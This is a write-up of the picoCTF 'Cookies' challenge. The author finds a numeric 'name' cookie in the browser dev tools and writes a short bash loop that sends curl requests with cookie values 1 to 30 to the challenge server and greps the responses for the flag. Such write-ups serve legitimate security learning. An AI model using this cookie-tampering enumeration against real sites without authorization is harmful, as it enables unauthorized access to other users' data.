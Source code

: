 # Cookies
Author: dch0017

## Challenge Description
Who doesn't love cookies? Try to figure out the best one.

## Accessing Site
First we head over to site and see this
![website](./website.png)

I enter in "snickerdoodle" to the text box and hit Search, this page pulls up:
![snickerdoodle](./doodle.png)

## Where are the cookies?
So we see the page changes when entering cookie names and searching, but what about the cookies? Going back to the homepage, I then open up Chrome's built in dev tools
and pop open the network tab. When opening the homepage we have a default cookie 

``name=-1``

Running the search for "snickerdoodle" takes us to the previous page and we can see that our cookie does change.

``name=0``

## Incrementing Cookies
Without knowing how many cookies there are, we can write a quick bash script to loop through any number of cookies and grep out our flag.

I wrote this code in a Linux box and called it cookiegrab.sh
```
for i in {1..30}
do
 curl --silent --cookie "name=$i" -X GET "http://mercury.picoctf.net:27177/check" | grep -o "picoCTF{.*}"
done
```
Then I needed to change the permissions of the script to be able to run it using chmod, and then finally run it to get our flag.

![flag](./linuxsteps.png)
